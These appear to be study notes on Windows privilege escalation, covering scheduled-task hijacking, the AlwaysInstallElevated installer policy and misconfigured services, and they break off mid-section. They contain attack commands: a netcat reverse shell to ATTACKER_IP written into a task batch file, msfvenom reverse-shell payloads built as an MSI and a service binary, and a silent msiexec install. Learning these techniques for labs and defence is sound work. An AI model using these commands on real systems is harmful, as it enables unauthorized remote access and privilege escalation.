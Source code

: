 echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat

  

1. Always elevated Executables: Always run the executable with higher privilege

  

It works only if both these keys are set

C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

  

Generate the executable:

  

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

  

Run the above executable

msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

  

  

1. Service Configurations

  

- Windows services are managed by the **Service Control Manager** (SCM)
- All of the services configurations are stored on the registry under HKLM\SYSTEM\CurrentControlSet\Services\: ‘**ImagePath’** is the executable path, ‘**ObjectName’** is the user name, ‘**Security’** is the access controls

  

# Query service details

# Executable path is given by '**BINARY_PATH_NAME'**

**# Run user: 'SERVICE_START_NAME'**

sc qc apphostsvc

  

# Create windows binary:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.18.222 LPORT=4445 -f exe-service -o rev-svc.exe

  

  

# Serve the file
